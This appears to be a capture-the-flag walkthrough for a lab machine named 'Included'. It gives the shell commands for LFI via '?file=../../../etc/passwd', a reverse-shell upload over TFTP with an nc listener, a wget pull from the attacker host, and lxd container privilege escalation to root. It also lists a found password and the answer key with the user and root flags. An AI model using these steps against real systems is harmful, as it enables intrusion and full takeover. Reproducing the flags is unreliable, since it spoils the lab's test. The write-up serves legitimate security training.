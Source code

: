 # Included - Very Easy

```shell
rustscan -a 10.129.195.90 --range 0-65535 --ulimit 5000 -- -sV

sudo nmap 10.129.195.90 -sU -p 1-100
#for udp scan
#slow

tftp 10.129.195.90

put reverse-shell.php

quit

#setup listener and access uploaded payload
nc -nvlp 4444

#after getting reverse shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

su mike
#using mike's creds found in .htpasswd

cd

cat user.txt

id
#we are part of lxd group

#we can transfer pre-built alpine tar file from attacker machine
#on attacker machine
python3 -m http.server

#on victim machine
cd /tmp

wget http://10.10.14.40:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh
#this gives us root shell

id
#root

cd /mnt/root/root

cat root.txt
```

```markdown
Open ports & services:

  * 80 (tcp) - http
  * 69 (udp) - tftp

Checking the webpage on port 80, we can see that it uses the query '/?file=home.php'

This can be vulnerable to LFI, we can check for /etc/passwd file as a proof of concept.

Using Burp Suite to first intercept the request and send it to repeater, we can experiment with different payloads.

Using the payload '/?file=../../../etc/passwd' works, so we can now enumerate and look for files that can help us in lateral movement.

Now, we know that .htpasswd is usually located in /var/www/html and can be used for lateral movement; we can get this file using LFI.

By printing .htpasswd using LFI, we get the creds mike:Sheffield19.

As we have TFTP on port 69 in victim machine, we can use that to upload reverse shell payload from our machine.

After uploading the payload, we need to setup listener and access the payload on web to get reverse shell; we can do so by visiting this link

    /?file=../../../var/lib/tftpboot/reverse-shell.php

Now we get reverse shell; after upgrading it we can switch to user Mike.

We can see that using 'id', we are part of lxd group; this can be exploited.

By Googling 'lxd privesc exploit', we get multiple articles which explain the privilege escalation process, we can follow those.

Once we complete all the steps, we get root.
```

1. What service is running on the target machine over UDP? - tftp

2. What class of vulnerability is the webpage that is hosted on port 80 vulnerable to? - Local File Inclusion

3. What is the default system fodler that TFTP uses to store files? - /var/lib/tftpboot/

4. Which interesting file is located in the web server folder and can be used for Lateral Movement? - .htpasswd

5. What is the group that user Mike is a part of and can be exploited for Privilege Escalation? - lxd

6. When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name? - Alpine

7. What flag do we set to the container so that it has root privileges on the host system? - security.privileged=true

8. If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted? - /mnt/root/

9. Submit user flag - a56ef91d70cfbf2cdb8f454c006935a1

10. Submit root flag - c693d9c7499d9f572ee375d4c14c7bcf
